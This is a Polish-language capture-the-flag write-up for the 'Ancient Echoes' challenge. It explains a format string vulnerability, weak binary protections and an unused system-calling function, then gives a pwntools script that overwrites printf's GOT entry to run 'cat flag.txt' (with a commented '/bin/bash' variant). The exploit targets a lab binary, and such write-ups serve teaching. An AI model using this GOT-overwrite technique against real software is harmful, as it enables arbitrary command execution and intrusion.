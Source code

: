 # Ancient Echoes - writeup
## Overview
![](attachments/main.png)
\
po otworzeniu pliku w idzie jesteśmy od razu zobaczyć, podatność jaką jest format string vulnerability. \
![](attachments/checksec.png) \
do tego nie ma aslr, więc kod będzie zawsze na takim samym adresie. Relro jest ustawione jako Partial,  więc będziemy w stanie nadpisać got. \
![](attachments/wild_magic.png)
\
możemy też znaleźć, że istnieje nigdzie nie wykorzystywana funkcja wild_magic, która wywołuje system z podaną komendą. 
## Exploitacja
skoro mamy dwukrotnie funkcje printf dzięki której jesteśmy w stanie nadpisać dane w goty, to musimy stworzyć taki payload, który jednocześnie nadpisze addres printf w goty do funkcji wykonującej system i odczyta flage z serwera.\
Zadziała to ponieważ argumentem funkcji system stanie się wtedy nasz payload.\
kod:
```python
io = process("./ancient_echoes")

printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```
